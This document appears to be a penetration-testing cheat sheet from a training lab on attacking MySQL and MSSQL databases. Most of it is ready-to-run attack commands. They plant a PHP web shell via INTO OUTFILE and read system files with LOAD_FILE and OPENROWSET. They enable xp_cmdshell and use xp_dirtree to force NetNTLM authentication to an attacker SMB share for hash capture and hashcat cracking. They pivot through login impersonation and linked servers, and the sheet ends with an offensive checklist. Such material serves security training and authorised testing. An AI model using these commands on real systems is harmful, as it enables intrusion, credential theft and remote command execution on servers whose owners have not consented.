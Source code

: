 ```yaml
---
title: "Attacking Common Services — SQL"
tags: [attacking-common-services, mssql, mysql, sql, enumeration, impersonation]
tools: [sqlcmd, mssqlclient, mssql-cli, sqsh, mysql, impacket, responder, hashcat]
---
```


# SQL

## Quick Connect Examples
```bash
# MySQL
mysql -u julio -p'Password123' -h 10.129.20.13

# MSSQL from Windows
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!'

# FreeTDS / sqsh (Linux)
sqsh -S 10.129.203.7 -U juli0 -P 'MyPassword!'

# Impacket mssqlclient
mssqlclient.py julio@10.129.203.7 -p 1433
```

---

## Common Enumeration Queries
```sql
# MySQL
SHOW DATABASES;
USE htbusers;
SHOW TABLES;
SELECT * FROM users;

# MSSQL
-- List databases (MSSQL)
SELECT name FROM master.dbo.sysdatabases;
-- Or
SELECT database_id, name FROM sys.databases;

-- Show tables in current DB
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE';

-- Dump table
SELECT * FROM dbo.users; -- watch out for large tables
```

Notes: always set a row limit when exploring unknown tables (TOP N or LIMIT) to avoid huge outputs.

---

## Read Local Files
```sql
-- MySQL: requires secure_file_priv to allow OUTFILE or LOAD_FILE
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php echo shell_exec($_GET["c"]);?>' INTO OUTFILE '/var/www/html/webshell.php';

-- MSSQL using OPENROWSET for file read (if enabled)
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents;
```
Notes: READ access to filesystem depends on DB service account privileges and server configuration.

---

## Command Execution
```sql
# MySQL
show variables like "secure_file_priv"; # Check if empty
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

# MSSQL
-- Basic xp_cmdshell usage (if enabled)
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
Caveat: enabling xp_cmdshell requires appropriate permission and is noisy — check logs and use only when permitted by scope.

---

## Capture Service Authentication (NTLM hashes)
- Use `xp_dirtree` / `xp_subdirs` to force MSSQL to authenticate to your SMB server and capture NetNTLM challenge/response.

Start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket)

```bash
sudo responder -I tun0

sudo impacket-smbserver share ./ -smb2support

# Crack it
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```mssql
# XP_DIRTREE Hash Stealing
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

#XP_SUBDIRS Hash Stealing
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

Run `Responder` or `impacket-smbserver` to collect the hashes, then crack with `hashcat -m 5600`.

---

## Impersonation & Privilege Escalation (MSSQL)
- Check who can be impersonated:
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
```
- Impersonate a login (if allowed):
```sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER; -- verify
REVERT; -- drop impersonation
```
- If linked servers exist, you can execute commands on the linked instance using `EXECUTE('...') AT [linked.server]` and enable `xp_cmdshell` there to run system commands remotely.

Example flow used in boxes:
```sql
-- Find linked servers
SELECT srvname, isremote FROM sysservers; -- isremote 1 = remote

-- Run a remote command via linked server
EXECUTE AS LOGIN = 'john';
EXECUTE('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
EXECUTE('xp_cmdshell ''type C:\\Users\\Administrator\\Desktop\\flag.txt''') AT [LOCAL.TEST.LINKED.SRV];
REVERT;
```

### Example - Impersonation

```sql
# Get users
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO

# Find remote server
SELECT srvname, isremote FROM sysservers
GO

# Impersonat
EXECUTE AS LOGIN = 'john'
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
GO

# allow xp_cmdshell
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]

# Grab flag
EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
```

---

## Practical Pentest Tips
- Always enumerate server-level permissions and linked servers early — they often lead to escalation paths.
- Use `TOP 100` / `LIMIT` when querying unknown tables.
- Be cautious with `OUTFILE` and `xp_cmdshell`; they are effective but noisy.
- If `xp_cmdshell` is not available, look for CLR assemblies, SQL Agent jobs, or backup file locations to pivot.
- Capture any DB service account context (e.g., NT SERVICE\MSSQLSERVER) and understand filesystem permissions associated with that account.

---

## Offensive Checklist
- [ ] Enumerate databases and tables (limit rows)
- [ ] Search for credential tables, config files, backup paths
- [ ] Attempt file reads (OPENROWSET / LOAD_FILE)
- [ ] Force authentication to attacker SMB to capture NetNTLM
- [ ] Look for IMPERSONATE permissions and linked servers
- [ ] Pivot to linked servers and attempt xp_cmdshell / file reads

---

## Vulnerabilities / Notes
- Common misconfigurations: enabled xp_cmdshell, writable webroot via OUTFILE, excessive IMPERSONATE grants, open linked servers.
- Defensive note: DB servers with high privileges and linked servers should be monitored for sp_configure and xp_cmdshell usage.
